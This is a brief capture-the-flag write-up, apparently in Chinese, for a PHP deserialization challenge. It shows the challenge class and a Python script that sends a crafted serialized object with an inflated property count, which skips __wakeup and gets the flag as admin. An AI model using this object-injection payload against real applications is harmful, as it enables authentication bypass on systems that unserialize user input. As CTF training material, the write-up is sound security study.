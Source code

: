 关于`_wakeup()`函数绕过，将对象属性个数改为不符合的就可以

```powershell
<?php

class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();


        }
    }
}

$a=serialize(new Name("admin",100));
echo $a;


```

```python
import requests

url="http://4d78761f-a911-45bc-aa84-f27a7b0daa1b.node3.buuoj.cn/index.php"

html=requests.get(url+'?select=O:4:"Name":3:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}')

print(html.text)
```
